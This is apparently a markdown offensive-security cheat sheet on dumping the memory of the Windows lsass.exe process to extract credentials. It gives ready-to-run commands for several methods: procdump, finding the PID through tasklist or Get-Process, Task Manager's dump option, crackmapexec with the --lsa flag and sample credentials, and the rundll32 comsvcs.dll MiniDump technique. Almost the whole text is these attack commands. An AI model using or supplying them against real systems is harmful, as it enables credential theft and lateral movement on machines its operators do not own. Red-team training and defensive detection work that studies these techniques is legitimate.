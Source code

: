 ## Dumping `lsass.exe`

### Procdump:
- We can dump `lsass.exe` using `procdump.exe`
```
procdump.exe -accepteula -ma lsass.exe lsass_dump
```
- Also can be done using PID
```
get-process lsass
OR
tasklist | findstr lsass

procdump.exe -accepteula -ma 580 out.dmp
```

### Task Manager:
- We can dump using Task Manager
```
> lsass.exe
> Create Dump File
```

### Crackmapexec:
- Using `crackmapexec`
```
crackmapexec smb 192.168.0.76 -u testadmin -p Password123 --lsa
```

### Comsvcs:
- Dump using lsass PID
```
Get-Process lsass
 C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 996 lsass.dmp full
```